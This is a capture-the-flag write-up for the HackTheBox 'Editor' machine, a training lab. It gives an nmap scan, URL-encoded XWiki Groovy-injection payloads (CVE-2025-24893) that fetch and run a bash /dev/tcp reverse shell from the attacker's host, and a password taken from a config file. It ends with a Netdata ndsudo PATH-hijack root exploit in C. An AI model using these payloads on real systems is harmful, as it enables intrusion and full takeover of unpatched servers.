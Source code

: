 ```yaml
---
title: "Editor HackTheBox Writeup"
date: 2025-08-31
tags: [ssh, HackTheBox, ndsudo]
categories: [HackTheBox]
---
```


# HackTheBox - Editor

> **📸 Note**: This writeup contains image placeholders. To see the actual screenshots, add your real HackTheBox images to `static/images/hackthebox/Editor/` and update the image paths below.

🖼️ **CTF Challenge Banner** - *Add your screenshot here*

# Reccon

As usual we will start with the *Nmap*

```
nmap -sC -sV --min-rate 5000 -T5 -Pn -p- 10.10.11.80
```

🖼️ **Nmap Scan Results** - *Add your screenshot here*

Looking at the result , we have 

-   22/tcp   open  ssh     OpenSSH
-  80/tcp   open  http    nginx
-  8080/tcp open  http    Jetty

Let add *editor.htb* in our hosts file
```
echo "10.10.11.80 editor.htb" | sudo tee -a /etc/hosts
```

# WebEnumeration

On port 80 we have

🖼️ **Port 80 Web Enumeration** - *Add your screenshot here*

And on port *8080*

🖼️ **Port 8080 Web Enumeration** - *Add your screenshot here*

I saw the *Xwiki* version in the bottom , when i googled about it , i came acrros this CVE 2025-24893 

🖼️ **CVE Information** - *Add your screenshot here*

and for the exploit , i got this [Exploit](https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py) 
To get the shell , we first need to create *shell.sh*

```
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/9001 0>&1
```

After creating a *shell.sh* start a python server in you local machine

```
python3 -m http.server 8000
```

Then in the browser Paste this encoded URL

 ```
  http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("wget%20-qO%20/tmp/shell.sh%20http://10.10.14.205:8000/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

 ```

Then have a listener of your choice , mine is *net-cat*

```
rlwrap nc -lvnp 9001
```

Then execute your payload
```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22bash%20/tmp/shell.sh%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

And **Boom** u got your shell

🖼️ **Shell Access** - *Add your screenshot here*

In **/etc/passwd** u will find that there is a user called **oliver**

```
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
```

Then in the **WEB-INF** u will find **hibernate.cfg.xml**
In which u will find the password of **Oliver**

```
theEd1t0rTeam99
```

🖼️ **Hibernate Configuration** - *Add your screenshot here*
```
ssh oliver@editor.htb
```

Getting into the user , we got our **user.txt**

# Getting the Root

On Localhost at port 19999 there is a service running called **netdata**

🖼️ **Netdata Service** - *Add your screenshot here*

So we did some Port forwarding

```
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

Paste this in your browser

```
http://localhost:19999/
```

🖼️ **Port Forwarding** - *Add your screenshot here*

Clicking on the **Please update them** , we get the version **1.45.2**

🖼️ **Version Information** - *Add your screenshot here*

After digging the internet we get this [CVE-2024-32019](CVE-2024-32019) **Oliver** has permission to run `ndsudo`:

1. Place an executable with a name that is on `ndsudo`'s list of commands (e.g. `nvme`) in a writable path
2. Set the `PATH` environment variable so that it contains this path
3. Run `ndsudo` with a command that will run the aforementioned executable First we need to make an **exploit.c** binary , then compile it

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);       // Switch to root
    setgid(0);       // Switch group to root
    system("/bin/bash");  // Spawn a root shell
    return 0;
}
```

Then compile it

```
gcc -o nvme exploit.c
```

Then we need to upload the exploit.c in Oliver's **/tmp** directory , for that we will use python server

```
python3 -m http.server 8000
```

Then the following

```
curl http://<YOUR-IP>:8000/nvme -o nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

And **Boom** we got the root.txt

🖼️ **Root Flag** - *Add your screenshot here*

---

## 📸 **Image Setup Instructions:**

To add your actual HackTheBox screenshots:

1. **Create the directory**: `mkdir -p static/images/hackthebox/Editor/`
2. **Add your images** with descriptive names like:
   - `nmap-results.png`
   - `port80-enum.png`
   - `shell-access.png`
   - `root-flag.png`
3. **Update the image paths** in this post to use:
   ```markdown
   ![Description](/images/hackthebox/Editor/filename.png)
   ```
4. **Recommended image size**: 800x600 pixels for screenshots
